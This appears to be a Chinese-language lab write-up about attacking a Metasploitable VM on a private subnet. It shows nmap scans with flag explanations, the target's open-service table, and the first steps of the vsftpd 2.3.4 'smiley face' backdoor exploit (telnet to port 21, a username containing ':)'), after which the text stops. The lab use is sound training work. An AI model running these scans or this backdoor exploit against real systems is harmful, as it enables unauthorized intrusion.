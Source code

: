 # Metasploitable demo

靶機記得要設置網路

https://reurl.cc/V0XnQb

KALI: 192.168.75.130
靶機: 192.168.75.131

[前言介紹](https://ithelp.ithome.com.tw/articles/10344154)
[環境架設](https://reurl.cc/V0XnQb)

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
23/tcp   open  telnet      Linux telnetd
25/tcp   open  smtp        Postfix smtpd
53/tcp   open  domain      ISC BIND 9.4.2
80/tcp   open  http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)
111/tcp  open  rpcbind     2 (RPC #100000)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
512/tcp  open  exec        netkit-rsh rexecd
513/tcp  open  login?
514/tcp  open  tcpwrapped
1099/tcp open  java-rmi    GNU Classpath grmiregistry
1524/tcp open  bindshell   Metasploitable root shell
2049/tcp open  nfs         2-4 (RPC #100003)
2121/tcp open  ftp         ProFTPD 1.3.1
3306/tcp open  mysql       MySQL 5.0.51a-3ubuntu5
5432/tcp open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7
5900/tcp open  vnc         VNC (protocol 3.3)
6000/tcp open  X11         (access denied)
6667/tcp open  irc         UnrealIRCd
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
8180/tcp open  http        Apache Tomcat/Coyote JSP engine 1.1

![image](https://hackmd.io/_uploads/SyMSoEYMyg.png)

- sudo nmap -F 192.168.75.0/24
    - 快速掃描整個子網中的主機和開放端口
    - -F
        - 快速模式（Fast Scan Mode）
        - 只掃描常見的 100 個 port，而非完整 65535 個 port

- sudo nmap -sV -O 192.168.75.131
    - -sV
        - 掃描開放的 port，並嘗試檢測服務的詳細版本資訊
    - -O
        - 通過分析網絡數據包的回應，嘗試識別目標主機的操作系統

- vsftpd 2.3.4
    - vsftpd
        - 一個類Unix系統以及Linux上的FTP伺服器軟體
    - 21 port
    - 笑臉漏洞：這個漏洞是開發者在軟體中留下的後門漏洞，當連接帶有vsftpd 2.3.4版本的伺服器的21埠時，輸入使用者中帶有「:) 」,密碼任意，即可執行vsf_sysutil_extra () ：開啟伺服器的6200端口，並且不需要密碼就能從6200端口以管理員身份登錄目標伺服器。因為輸入使用者名稱需要帶有:)，所以稱為笑臉漏洞
    - 步驟
        - 開一個 terminal
            - telnet 192.168.75.131 21
                - 連上 21 port
            - user attack:)
                - 輸入任意username，帶上:)
            - pass 123456
                - 密碼隨意設定